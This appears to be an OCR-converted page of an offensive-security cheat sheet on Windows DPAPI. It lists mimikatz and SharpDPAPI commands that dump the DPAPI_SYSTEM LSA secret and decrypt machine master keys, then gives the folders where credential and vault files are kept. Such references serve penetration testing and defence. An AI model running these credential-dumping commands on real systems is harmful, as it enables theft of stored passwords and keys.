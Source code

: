 \subsection{DPAPI - How decrypt Machine Secrets?}
Extracting the Machine Master Key and decrypt the secrets

\subsubsection*{Machine Master Key Decryption}

To decrypt machine masterkeys, we need the \texttt{DPAPI\_SYSTEM} \textit{LSA Secret}:

\begin{lstlisting}[language=sh]
mimikatz # lsadump::secrets
\end{lstlisting}

This key can then be used to decrypt machine master keys with:

\begin{lstlisting}[language=sh]
mimikatz # dpapi::masterkey /in:C:\Windows\System32\Microsoft\Protect\S-1-5-18\<GUID> /system:DPAPI_SYSTEM
\end{lstlisting}

Or with SharpDPAPI (which extracts the DPAPI\_SYSTEM key first):

\begin{lstlisting}[language=sh]
SharpDPAPI.exe machinemasterkeys
\end{lstlisting}

\subsection{DPAPI - Credentials, Vauts, .rdg, Chrome, ?}
Extracting even more secrets from DPAPI

\section*{DPAPI Credentials and Vaults}

Credentials are kept in \texttt{Credentials} folders, self-contained structures

Vaults are kept in \texttt{Vault} folders, have a \texttt{Policy.vpol} that's decrypted with a masterkey, two AES keys within the policy are then used to decrypt one or more \texttt{.vcrd} files

Where can you typically find them:

\begin{lstlisting}[language=sh]
%userprofile%\AppData\(Local|Roaming)\Microsoft\...
\end{lstlisting}

